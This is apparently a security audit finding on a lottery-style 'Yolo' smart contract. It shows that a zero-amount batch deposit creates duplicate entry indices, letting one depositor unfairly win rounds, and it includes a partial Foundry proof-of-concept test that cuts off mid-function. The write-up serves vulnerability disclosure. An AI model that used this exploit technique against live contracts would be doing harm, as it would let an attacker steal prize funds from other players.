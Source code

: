 ```
[
    1 => Alice,
    1 => Bob,
    3 => Charlie,
    3 => Bob,
]
```
As you can see, since Bob deposited `0 eth` to opened round, there are duplicated values in this array. Winner is decided by finding the first index that its entry index is greater or equal to received random number in above array. 

But the problem is occured in this step. If the received random number is equal to an element of `currentEntryIndexArray`, the `findUpperBound` function doesn't return the first element's index that is equal to the random number due to function's internal logic. In other words, when the received random number is 1 or 3, the winner would be selected as Bob unfairly not Alice or Charlie.

I wrote the test file for PoC as follow.
```solidity
contract UnfairWinnerSeletedTest is TestHelpers {
    address public alice = address(101);
    address public bob = address(102);
    address public charlie = address(103);

    function setUp() public {
        _forkMainnet();
        _deployYolo();
        _subscribeYoloToVRF();
    }

    function test_depositWithZeroAmountUsingBatchDeposit(uint256 randomWord) public {
        vm.deal(alice, 1 ether);
        vm.deal(bob, 1 ether);
        vm.deal(charlie, 1 ether);

        vm.startPrank(alice);
        yolo.deposit{value: 0.01 ether}(1, _emptyDepositsCalldata());

        IYoloV2.Deposit[] memory deposits = _getDeposits(1);
        assertEq(deposits.length, 1);

        IYoloV2.Deposit memory deposit = deposits[0];
        assertEq(uint8(deposit.tokenType), uint8(IYoloV2.YoloV2__TokenType.ETH));
        assertEq(deposit.tokenAddress, address(0));
        assertEq(deposit.tokenId, 0);
        assertEq(deposit.tokenAmount, 0.01 ether);
        assertEq(deposit.depositor, alice);
        assertFalse(deposit.withdrawn);
        assertEq(deposit.currentEntryIndex, 1);

        vm.stopPrank();

        vm.startPrank(bob);
        yolo.depositETHIntoMultipleRounds{value: 0.01 ether}(_amounts());

        deposits = _getDeposits(1);
        assertEq(deposits.length, 2);

        deposit = deposits[1];
        assertEq(uint8(deposit.tokenType), uint8(IYoloV2.YoloV2__TokenType.ETH));
        assertEq(deposit.tokenAddress, address(0));
        assertEq(deposit.tokenId, 0);
        assertEq(deposit.tokenAmount, 0 ether);
        assertEq(deposit.depositor, bob);
        assertFalse(deposit.withdrawn);
```
